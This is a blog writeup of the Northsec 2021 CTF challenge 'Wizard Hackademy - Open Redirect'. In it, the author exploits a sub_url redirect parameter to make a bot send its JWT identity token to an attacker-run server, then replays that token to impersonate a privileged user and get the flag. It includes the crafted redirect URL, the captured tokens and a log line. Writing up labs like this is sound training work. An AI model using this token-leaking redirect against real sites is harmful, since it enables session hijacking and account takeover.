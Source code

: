 ```yaml
---
layout: post
title: Northsec 2021 Writeup - Wizard Hackademy - Open Redirect
date: 2021-05-24
type: post
tags:
- Writeup
- Hacking
- Northsec
- CTF
permalink: /2021/05/Northsec2021WriteupOpenRedirect/
---
```


In this challenge, we have a web site on `http://chal5.wizard-hackademy.ctf/` with two links and a message that tells us we are logged in as an apprentice. 

![Main Page](/assets/images/2021/05/Northsec/WizardHackademy/OpenRedirect/MainPage.png "Main Page").


When I clicked on the first link, I was sent to a page on a sub domain `http://sub.chal5.wizard-hackademy.ctf/`. 

![Sub Domain Page](/assets/images/2021/05/Northsec/WizardHackademy/OpenRedirect/SubPage.png "Sub Domain Page").

The page contains a link back to the main page and inform us that we are still logged in as an apprentice. 

I then tried the link to speak to a Grand Master Wizard. This page allow us to provide a URL and the wizard will load it.

![Wizard Page](/assets/images/2021/05/Northsec/WizardHackademy/OpenRedirect/WizardPage.png "Wizard Page").

The CTF provided us with a box we could use inside the network. I tried sending the wizard to a site on that page so I could see what would appear in the logs. 

![Visit Shell Page](/assets/images/2021/05/Northsec/WizardHackademy/OpenRedirect/VisitShellPage.png "Visit Shell Page").

The wizard went to the page, but nothing interesting was leaked in the logs.

## Exploiting The Redirection

I looked back at the requests in Burp and I saw that when you're on the main page and click on the link to the sub site, it first load `http://chal5.wizard-hackademy.ctf/?sub_url=http://sub.chal5.wizard-hackademy.ctf/`. This then add a token to the sub_url before redirecting you there. So the sub site URL becomes: `http://sub.chal5.wizard-hackademy.ctf/?identity=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9zdWIuY2hhbDUud2l6YXJkLWhhY2thZGVteS5jdGZcLyIsImlhdCI6MTYyMTY1Mjk2MiwibmJmIjoxNjIxNjUyOTYyLCJleHAiOjE2MjE2NTMyNjIsInVzZXIiOiJhcHByZW50aWNlIiwicm9sZSI6ImFwcHJlbnRpY2UifQ.bDEamErj1LWl7kR2DrE4D3UG49zPa8OQt8YYfeJiZrY`

This looks like a JWT token. I base64 decoded it and this I what I got:
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
.
{
  "iss": "http:\\/\\/sub.chal5.wizard-hackademy.ctf\\/",
  "iat": 1621652962,
  "nbf": 1621652962,
  "exp": 1621653262,
  "user": "apprentice",
  "role": "apprentice"
}
.
Ã.©.®=KZ^äG`ë..÷Pn=Ìö¼9.|a.Þ&&kd
```

I tried changing the algorithm to None and resubmit the token without the signature, but that didn't work. 

Then I decided to use this sub_url feature in the wizard page. If the wizard was to follow a link to the main page with a sub_url that pointed to our server, the token might be appended to our server's URL and it would show in the logs. 

I went back to the wizard page and entered this URL `http://chal5.wizard-hackademy.ctf/?sub_url=http://shell.ctf/`. 

![Send the Wizard to Our Site](/assets/images/2021/05/Northsec/WizardHackademy/OpenRedirect/SendWizardToOurSite.png "Send the Wizard to Our Site").

I looked at the Apache logs on our server, and I saw that the Wizard had hit the page and their token was in the logs. 

```
9000:470:b2b5:cafe:216:3eff:fe33:a18e - - [22/May/2021:03:12:35 +0000] "GET //?identity=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9zdWIuY2hhbDUud2l6YXJkLWhhY2thZGVteS5jdGZcLyIsImlhdCI6MTYyMTY1MzE1NCwibmJmIjoxNjIxNjUzMTU0LCJleHAiOjE2MjE2NTM0NTQsInVzZXIiOiJVbmZvcnR1bmF0ZSB3aXphcmQiLCJyb2xlIjoiR3JhbmQgTWFzdGVyIFdpemFyZCJ9.fnBNbxNh3n5eFAZNg3YGd7dSx7-avhPH5Ovm2H_u7LQ HTTP/1.1" 200 11173 "-" "-"
```

I then visited the site on the sub domain using that token. And I was then connected as the Wizard. 

`http://sub.chal5.wizard-hackademy.ctf/?identity=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9zdWIuY2hhbDUud2l6YXJkLWhhY2thZGVteS5jdGZcLyIsImlhdCI6MTYyMTY1MzE1NCwibmJmIjoxNjIxNjUzMTU0LCJleHAiOjE2MjE2NTM0NTQsInVzZXIiOiJVbmZvcnR1bmF0ZSB3aXphcmQiLCJyb2xlIjoiR3JhbmQgTWFzdGVyIFdpemFyZCJ9.fnBNbxNh3n5eFAZNg3YGd7dSx7-avhPH5Ovm2H_u7LQ`


![I Am the Wizard](/assets/images/2021/05/Northsec/WizardHackademy/OpenRedirect/ImAWizard.png "I Am the Wizard").

From there, I clicked on the link to go back to the main site, and the flag was displayed.

Flag: FLAG-4c312b96d8cb77d3ef0e0cb19b10dd6f

